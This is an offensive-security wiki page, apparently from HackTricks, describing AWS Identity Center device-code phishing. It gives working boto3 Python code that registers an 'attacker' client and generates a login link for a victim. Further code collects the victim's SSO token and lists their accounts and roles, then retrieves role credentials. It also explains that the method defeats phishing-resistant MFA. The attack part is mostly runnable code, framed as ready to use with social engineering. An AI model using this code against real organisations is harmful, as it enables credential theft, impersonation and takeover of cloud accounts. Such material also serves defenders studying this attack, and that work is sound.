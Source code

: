 # AWS - Identity Center & SSO Unauthenticated Enum

{{#include ../../../banners/hacktricks-training.md}}

## AWS Device Code Phishing

Initially proposed in [**this blog post**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), it's possible to send a **link** to a user using AWS SSO that if the **user accepts** the attacker will be able to get a **token to impersonate the user** and access all the roles the user is able to access in the **Identity Center**.

In order to perform this attack the requisites are:

- The victim needs to use **Identity Center**
- The attacker must know the **subdomain** used by the victim `<victimsub>.awsapps.com/start`

Just with the previous info, the **attacker will be able to send a link to the user** that if **accepted** will grant the **attacker access over the AWS user** account.

### Attack

1. **Finding the subdomain**

The first step of the attacker is to find out the subdomain the victim company is using in their Identity Center. This can be done via **OSINT** or **guessing + BF** as most companies will be using their name or a variation of their name here.

With this info, it's possible to get the region where the Indentity Center was configured with:

```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```

2. **Generate the link for the victim & Send it**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
For the demo, run this code in a python console and do not exit it as later you will need some objects to get the token:

```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
    clientName = 'attacker',
    clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
    clientId=client_id,
    clientSecret=client_secret,
    startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```

Send the generated link to the victim using you awesome social engineering skills!

3. **Wait until the victim accepts it**

If the victim was **already logged in AWS** he will just need to accept granting the permissions, if he wasn't, he will need to **login and then accept granting the permissions**.\
This is how the promp looks nowadays:

<figure><img src="../../../images/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Get SSO access token**

If the victim accepted the prompt, run this code to **generate a SSO token impersonating the user**:

```python
token_response = sso_oidc.create_token(
    clientId=client_id,
    clientSecret=client_secret,
    grantType="urn:ietf:params:oauth:grant-type:device_code",
    deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```

The SSO access token is **valid for 8h**.

5. **Impersonate the user**

```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
        accessToken=sso_token,
        maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
        accessToken=sso_token,
        accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
        accessToken=sso_token,
        roleName=<role_name>,
        accountId=<account_id>
)
sts_creds.get('roleCredentials')
```

### Phishing the unphisable MFA

It's fun to know that the previous attack **works even if an "unphisable MFA" (webAuth) is being used**. This is because the previous **workflow never leaves the used OAuth domain**. Not like in other phishing attacks where the user needs to supplant the login domain, in the case the device code workflow is prepared so a **code is known by a device** and the user can login even in a different machine. If accepted the prompt, the device, just by **knowing the initial code**, is going to be able to **retrieve credentials** for the user.

For more info about this [**check this post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

- [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
- [https://github.com/sebastian-mora/awsssome_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

- [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
- [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
- [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
- [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{{#include ../../../banners/hacktricks-training.md}}






